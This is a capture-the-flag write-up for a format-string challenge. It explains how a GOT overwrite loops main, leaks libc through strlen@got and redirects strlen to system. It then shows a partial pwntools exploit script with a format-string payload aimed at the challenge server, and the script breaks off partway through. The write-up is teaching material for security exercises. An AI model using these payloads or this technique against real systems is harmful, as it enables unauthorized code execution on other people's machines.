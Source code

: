```
		printf(item);
		printf(" somewhere else. ");
	}
   ...
```

Then we inspected the binary and we find that there's the canary and either the stack is NX, but PIE is disabled.

### Solution
we used got overwrite, by overwritting the puts@got with the address of the main, so having a loop of the main.
then in the second iteration we leaked the libc, by printing the content of strlen@got.
now we can overwrite the strlen@got by inserting the system, so with the next iteration we should have 'system(item)' instead of 'strlen(item)'.
```
from pwn import *
import time

debug = int(sys.argv[1])
online=False
socat=False
if( debug == -1):
  r = remote("localhost", 3414)
  socat=True
elif( debug == 0):
  r = remote("shell.actf.co", 19307)
  online=True
elif(debug == 1):
  libcz = ELF("/lib/x86_64-linux-gnu/libc.so.6")
  mainz = ELF("./returns")
  r = mainz.process()

 
def halt():
  while True:
    log.info( r.recvline() )

def interactive():
  if ( not online and not socat):
    print( """/usr/bin/gdb -q  {0} {1}""".format( r.argv[0], r.pid ) )
  r.interactive()

def printf(strz):
  r.recvuntil(strz)

def scanf( _):
  r.sendline("1")

def getchar():
  return

def exploit():
  #loop main
  printf("What item would you like to return?")
  payload1='%4198822u%11$n %p %p %p \x18\x40\x40'
  r.sendline(payload1) 
  #till here works.
  
  one_gadget = 0x41490  #system instead
  if online:
    one_gadget = 0x45390 #system instead
  printf("What item would you like to return?")
```